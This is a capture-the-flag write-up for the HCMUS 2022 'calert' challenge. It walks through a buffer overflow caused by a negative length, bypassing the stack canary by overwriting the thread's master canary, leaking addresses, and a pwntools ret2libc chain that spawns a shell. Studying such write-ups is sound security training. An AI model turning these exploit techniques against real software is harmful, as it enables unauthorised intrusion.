# HCMUS Final 2022 - calert

Because the ctf was ended so no original challenge link will be provided.

Instead, you can download the challenge in my repo: [calert.zip](calert.zip)

There will be several files in zip:

- calert
- docker/
- docker/docker-compose.yml
- docker/Dockerfile
- docker/libc6-amd64_2.31-13_i386.so
- docker/xinetd
- docker/flag.txt
- docker/run.sh
- docker/calert

We will assume the docker is the server so we will not get anything from that folder. To build a server locally, change dir to `docker` and run `docker-compose build` and then `docker-compose up` to start the server (required `docker-compose` to be installed previously).

And the file calert outside the folder is the original challenge file I got from server, just 1 file. When everything is set, let's start!

# 1. Find bug

First, let's check for basic information:

```bash
$ file calert
calert: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5e959bf141a7832d9438129690d432d685faf49, for GNU/Linux 3.2.0, stripped

$ checksec calert
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This is a 64-bit file being stripped and all the protections are on (important defences are dynamic address, stack canary).

Next, let's decompile the file with ghidra to get the flow. Looking at entry, we can get the function main. In main, it create 2 threads and wait for those threads (and I renamed those 2 function into `sub_main` and `alarm_exit`):



In the functino `sub_main`, there are several function and I will rename them as follows:



And in `sub_sub_main`, this is the correct function as when we run so let's analyze this function. 



In this `sub_sub_main`, it first get the length of input via a function called `read_int` (as I renamed). Jump into this function, we can see that it read bytes first and then turn the string of number into number via `atoi()`:



Jump back to `sub_sub_main`, we can see that it then will compare the number we input with `0x80` and will allow us to input data just when the length is lower than `0x80`.

But there is one thing we need to notice. In `read_int()`, it use `atoi()` to convert the string of number into number so if we input a positive number, that's not the problem, but if we input a negative number, the check `if (length < 0x80)` is passed.

When that check is passed, program then execute `read_byte()` with parameteres are buffer and length. Jump into `read_byte()`, we can see that the argument of this function is `long buffer` and `unsigned int size`:


So if our current length is `-1` (`0xffffffff` in hex of int) and it is passed to `read_byte()`, the size will be `0xffffffff` for unsigned int, that's a large size and can give us a **Buffer Overflow**

In case we input a negative number as `-1`, the for loop after `read_byte(buffer, length)` will not be execute and neither do the function `print_buffer(local_98)`

And the big while loop just loop for 3 times.

That's all we can find, just one bug is **Buffer Overflow**, so let's move on!

# 2. Idea

I made this writeup after the challenge ended and the hint I got is that if I input a large payload, I can overwrite the stack canary of a function and also the original canary. 

After a while playing around, I know that the original canary will be saved in a different address range (neither libc nor ld). Using gdb and then find the canary in all memory, we can see this:



The highlighted address is the canary of the current function `sub_sub_main`, so the next canary (at the higher address) is the canary of `sub_main` and next of that is the original canary. By using `vmmap` or `info proc mappings`, we can see that these address is not inside of libc address nor ld address:



The highlighted address is our current stack address and this range contain the original canary. In another words, by creating new thread and this new thread has address in range of original canary, we can modify the original canary as our wish.

So the idea is to input in the third time with a large payload to overwrite canary of current function into `AAAAAAAA` and original canary into `AAAAAAAA` (From start of input to original canary takes `0x978` bytes), then at the check in the epilouge, that check is pass and `__stack_chk_fail` will not be called. 



And we can control the program.

Because I didn't solve the chall when it was opened so I will assume that from here, we can do a ret2libc to get the shell. The docker I made can help we do that technique.

Summary:
- Stage 1: Leak exe
- Stage 2: Leak libc
- Stage 3: Conduct ret2libc

# 3. Exploit

### Stage 1: Leak exe

The reason why I leak exe first is because we don't know what address of libc will be store on stack. We can just know the address of exe on stack and we can calculate the base address with the leaked address of exe with the binary.

Let's debug the file with gdb by typing `gdb calert` and then `r` to make it run. When it askes us for length of input, press `Ctrl + C` to stop it and then check all thread with command `info thread`:



We can see there are 3 threads. Let's switch to thread 2 (the `sub_sub_main` function) by typing `thread 2`:



We cannot see the function name in gdb because the program was stripped. Type `ni` and input a number, then set breakpoint at function ended with byte `0x8b` (that's an instruction of `sub_sub_main`):



Then type `c` and input a number again, it will stop at the breakpoint and we can analyze the stack:


So we know that if we input a number lower than `0x80`, the program will xor our input with a strings inside a global variable:



So let's make a script to get the hex byte and recover the address of exe:

```python
from pwn import *
from binascii import unhexlify, hexlify

context.binary = exe = ELF('./calert', checksec=False)
context.log_level = 'debug'

p = process(exe.path)

key = b'0123456789ABCDEF'

p.sendlineafter(b'input: ', b'127')
p.sendline(b'A'*7)

ciphertext = unhexlify(p.recvline()[:-1])
plaintext = xor(ciphertext, key)
print(hexlify(plaintext))
```

Execute script and we can see that the leak hex is recovered:



So let's get the exe leak:

```python
exe_leak = u64(plaintext[0x10:0x18])
log.info("Exe leak: " + hex(exe_leak))
```


Now, let's attach gdb and get the offset to find exe base:





So offset is `0x2038`, let's finish the script to get the exe base address:

```python
exe.address = exe_leak - 0x2038
log.info("Exe base: " + hex(exe.address))
```

Let's start the docker and try with the script above, we can see that the exe leak is correct:



### Stage 2: Leak libc

As I said above, we cannot know the libc addresses on stack so we cannot find the correct libc. Instead, we will use `puts()` to print the address of any @got and it would be easier to find the correct libc.

First, let's find the offset from our input to the saved rip. Let's stop after we input `AAAAAAA` (with the script above) and check the stack:





So offset is `0x118`. Let's update the script to make it enter one more time and we will check at the third `Length of input`:

```python
# First time use to leak exe address as script above
# Second time
p.sendlineafter(b'input: ', b'127')
p.sendline(b'B'*(0x80-2))

# Third time
p.sendlineafter(b'input: ', b'-1')
payload = b'A'*0x118
payload += b'B'*8             # Check if saved rip or not
payload = payload.ljust(0x978, b'A')
p.sendline(payload)
```

And we can see that offset is correct:



So we will update script to leak the address of puts() and we can get the libc. The payload above change as following:

```python
pop_rdi = exe.address + 0x0000000000001703

payload = b'A'*0x118
payload += flat(
    pop_rdi, exe.got['puts'],
    exe.plt['puts']
    )
payload = payload.ljust(0x978, b'A')
```

The gadget you can get by using `ROPgadget`. After executing script, we can see the address leaked:



We can get that address with this code:

```python
p.recvline()
puts_addr = u64(p.recvline()[:-1] + b'\x00\x00')
log.info("Puts address: " + hex(puts_addr))
```

Let's connect to docker and get the address, then go to https://libc.blukat.me/ to find the libc (if you don't want to cheat):







Let's try with the first libc `libc6-amd64_2.31-13_i386 `. Download that and patch with `pwninit` to continue:



So now we will use the file called `calert_patched` and load the libc to the script too:

```python
libc = ELF('./libc6-amd64_2.31-13_i386.so', checksec=False)
context.binary = exe = ELF('./calert_patched', checksec=False)
```

So let's run again with the patched file and leak the libc address as we've done as we leak exe address:

```python
libc_leak = u64(plaintext[0x8:0x10])
log.info("Libc leak: " + hex(libc_leak))
```

Run the script and we get the libc leak:



We will attach with gdb to calculate the leaked address with the libc base address to find the offset:




And we will add this code to get the libc base address:

```python
libc.address = libc_leak - 0xeef84
log.info("Libc base: " + hex(libc.address))
```

### Stage 3: Conduct ret2libc

With the libc base address, just simply conduct a ret2libc and we are done. Updated payload will be as follows:

```python
pop_rdi = exe.address + 0x0000000000001703
pop_rsi_r15 = exe.address + 0x0000000000001701
libc_pop_rdx = libc.address + 0x00000000000cb1cd

p.sendlineafter(b'input: ', b'127')
p.sendline(b'B'*(0x80-2))

p.sendlineafter(b'input: ', b'-1')
payload = b'A'*0x118
payload += flat(
    pop_rdi, next(libc.search(b'/bin/sh')),
    pop_rsi_r15, 0, 0,
    libc_pop_rdx, 0,
    libc.sym['execve']
    )
payload = payload.ljust(0x978, b'A')
p.sendline(payload)
```

We will want all the argument of `execve` to be correct so we will find a `pop rdx` in libc to set the register rdx.

Executing the script and we can get the shell locally:


And also on docker:



Full script: [solve.py](images/solve.py)

# 4. Get flag

The flag I created myself just for fun:

